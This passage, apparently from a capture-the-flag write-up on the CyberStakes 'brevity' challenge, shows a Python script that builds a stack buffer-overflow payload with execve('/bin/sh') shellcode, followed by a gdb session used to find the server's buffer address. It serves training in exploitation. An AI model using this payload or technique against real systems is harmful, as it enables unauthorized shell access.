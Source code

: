 ```Python
# shellcode is split to enable easy hard-coded address patching
addr_of_shellcode = bufferstart + 16 + 4
shellcode_p1 = "1\xd21\xc9\xbb"
address_of_sh = bufferstart + 16 + 4 + 15
shellcode_p2 = "1\xc0\xb0\x0b\xcd\x80"

payload = ""
payload += "a"*16
payload += LittleEndian(addr_of_shellcode)
payload += shellcode_p1
payload += LittleEndian(address_of_sh)
payload += shellcode_p2
payload += "/bin/sh\x00"

#for c in payload:
#  sys.stdout.write("\\x" + hex(ord(c))[2:].zfill(2))
#sys.stdout.write('\n')

fp = open("input","wb")
fp.write(payload)
fp.close()
```

This will work locally in `gdb`. However, we need it to work on the CyberStakes server, so we have to open the binary in `gdb` on the server and find the new buffer start. In this case, it is `0xffff1334` instead of `0xffff0c14` on our machine:
```
ameise@shell:/tmp/ameise$ gdb /home/problems/ffea9c42b57ff63588ae3542bd0b0d9b/brevity_9/brevity -q
Reading symbols from /home/problems/ffea9c42b57ff63588ae3542bd0b0d9b/brevity_9/brevity...(no debugging symbols found)...done.
(gdb) set disassembly intel
(gdb) disas main
Dump of assembler code for function main:
   0x080480aa <+0>:	sub    esp,0x10
   0x080480ad <+3>:	mov    edx,0x38
   0x080480b2 <+8>:	mov    ecx,esp
   0x080480b4 <+10>:	mov    ebx,0x0
   0x080480b9 <+15>:	mov    eax,0x3
   0x080480be <+20>:	int    0x80
   0x080480c0 <+22>:	mov    ebx,0x1
   0x080480c5 <+27>:	mov    eax,0x4
   0x080480ca <+32>:	int    0x80
   0x080480cc <+34>:	add    esp,0x10
   0x080480cf <+37>:	ret    
End of assembler dump.
(gdb) break *0x080480b2
Breakpoint 1 at 0x80480b2
(gdb) run
Starting program: /home/problems/ffea9c42b57ff63588ae3542bd0b0d9b/brevity_9/brevity 

Breakpoint 1, 0x080480b2 in main ()
(gdb) p/x $esp
$1 = 0xffff1344
```
